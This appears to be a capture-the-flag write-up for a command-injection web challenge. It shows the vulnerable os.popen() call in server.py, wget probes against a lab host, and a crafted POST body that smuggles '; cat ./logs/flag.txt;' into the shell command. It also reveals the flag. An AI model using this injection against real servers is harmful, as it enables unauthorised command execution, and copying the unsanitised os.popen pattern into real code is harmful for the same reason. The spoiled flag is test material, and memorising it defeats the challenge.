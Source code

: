 ## WEB-1: Command Injection
**Description:**  
This challenge demonstrates an insecure server-side implementation of `os.popen()` that leads to command injection via unvalidated user input.
<details> <summary><b>Reveal Hidden Flag</b></summary>
flag{02c0953556}
</details></br>

**Solution Summary:**
- By analyzing `client.py` and `server.py`, I discovered the existence of `/view` and `/logs` endpoints.
- The `/view` endpoint handles `POST` requests with a date string in the body.
- The server constructs a shell command using this user-supplied input without sanitization, enabling command injection.
- By injecting `; cat ./logs/flag.txt;`, I was able to retrieve the flag.

**Exploitation Steps:**
1. Inspected the `client.py` and `server.py` files in the `/ctf` directory, which revealed the following routes:
    ```plaintext
    /
    /view
    /logs
    ```
2. Probed the endpoints using wget:
    ```bash
    wget http://192.168.1.2/         # Displays welcome message with hint about /view
    wget http://192.168.1.2/view     # Shows list of log files in ./logs/
    wget http://192.168.1.2/logs     # No response (likely not a valid route)
    ```

3. Tested `POST` requests to `/view`:
    ```bash
    wget http://192.168.1.2/view --post-data=20240112       # Displays 20240112.html
    wget http://192.168.1.2/view --post-data=flag           # Returns 404
    wget http://192.168.1.2/view --post-data=flag.txt       # Also fails
    ```

4. Identified the vulnerability in `server.py`:
    ```python
    result = os.popen(f"cat ./logs/{date}.html").read()
    ```
    The `{date}` input is used directly in a shell command — making command injection possible.

5. Confirmed the target file via /view, which reveals:
    ```bash
    ls -l ./logs/
    ```
    Output includes:
    ```html
    -rw-rw-r-- 1 1000 1000 733 Jan 12 07:51 20240112.html
    -rw-rw-r-- 1 1000 1000  16 Apr 29 2025 flag.txt
    ```

6. Crafted the exploit
    - Copied `client.py` to `post.py` to modify and inject a command via the POST body.
        - Original:
            ```python
            req = "POST /view HTTP/1.1\r\nHost: localhost\r\n\r\n20240112"
            ```
        - Injected:
            ```python
            req = "POST /view HTTP/1.1\r\nHost: localhost\r\n\r\n20240112.html; cat ./logs/flag.txt;"
            ````

7. Code Context (from server.py)
    ```python
    date = request.body.strip()
    result = os.popen(f"cat ./logs/{date}.html").read()
    ```
    _Since the input is unsanitized, injection like `; cat ./logs/flag.txt;` successfully executes._

8. The server returned the contents of `flag.txt` in the HTTP response.
